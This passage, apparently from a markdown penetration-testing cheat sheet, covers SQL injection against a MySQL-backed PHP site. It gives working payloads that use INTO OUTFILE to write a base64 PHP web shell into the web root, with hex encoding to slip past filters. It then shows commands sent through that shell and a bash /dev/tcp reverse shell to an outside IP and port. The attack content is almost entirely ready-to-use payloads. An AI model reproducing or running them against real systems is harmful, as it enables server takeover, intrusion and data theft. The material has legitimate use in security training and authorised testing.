```
- use steal;
- show tables;
```

### Arbitrary File Write

> **Key Point**
>
> If `<?php any-php-code ?>` is found in a file called by the web server, `PHP` code will be executed.

Before writing the `cmd_web_shell_base64.php` into the filesystem, we need to know under which location application stores all `php` files.

For Example - `nikto` scan reveals that application’s php files are stored under `/var/www/manual/` directory.

```
payload = admin' union select null, '<?php echo shell_exec(base64_decode($_GET["cmd"]));?>' into outfile '/var/www/manual/cmd_web_shell_base64.php';#

[+] verify that file created successfully
payload = admin' union select null, load_file('/var/www/manual/web_shell_base64.php');#

[+] hex encode the values when `/` or some keywords in the filename are filtered
[online] => http://www.asciitohex.com/
file = '0x' + ''.join("{:x}".format(ord(c)) for c in '<?php echo shell_exec(base64_decode($_GET["cmd"]));?>')
file => 0x3c3f706870206563686f207368656c6c5f65786563286261736536345f6465636f646528245f4745545b22636d64225d29293b3f3e
```

**\[+] Alternate approach: Push `cmd_webshell` code into the database**

If you are able to update / insert any entry then push the `php` code into the database table.

It means, now `mysql\database_name\table_name.MYD` has the code.

Try to access the file through `directory traversal`.

### Remote Command Execution

Supply `commands` in `base64` encoded form through "`cmd`" parameter.

```
echo 'ls -al' | base64  => bHMgLWFsCg==
http://192.168.2.11/manual/web_shell_base64.php?cmd=bHMgLWFsCg==

[+] RCE and receive reverse shell on 192.168.16.90:443
echo 'bash -i >& /dev/tcp/192.168.16.90/443 0>&1' | base64  => YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2LjkwLzQ0MyAwPiYxCg==
```

### Obtain Remote shell
